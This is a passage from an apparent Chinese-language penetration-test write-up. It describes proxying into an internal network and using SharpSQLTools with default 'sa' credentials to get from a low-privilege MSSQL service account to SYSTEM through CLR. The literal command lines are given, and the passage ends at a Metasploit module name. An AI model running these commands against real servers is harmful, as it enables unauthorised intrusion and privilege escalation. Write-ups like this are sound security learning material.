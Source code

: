   
配合
```
Proxifier
```

  
开启
```
socks
```

  
代理隧道, 利用
```
SharpSQLTools
```

  
执行命令, 发现是
```
10.10.10.18
```

  
机器是一个低权限的账号
```
network service
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Of0YJqaEkNbh3o8H3FyTia1PCHB3YKy4E3qoHKWt1lK8n3ibn750AMOqA/640?wx_fmt=png&from=appmsg "")  
  
参考MSSQL 利用 CLR 技术执行系统命令中的方法, 进行
```
clr
```

  
提权, 成功提权到
```
system
```

  
权限.  

```
SharpSQLTools.exe 10.10.10.18 sa sa master install_clr
SharpSQLTools.exe 10.10.10.18 sa sa master enable_clr
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato whoami
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Ow0WOo8vUOfVrGoRcFjvNXgVianmMhSgo9HGwW2pygW12BbxibibukpDgw/640?wx_fmt=png&from=appmsg "")  
  
利用
```
exploit/windows/mssql/mssql_clr_payload
```
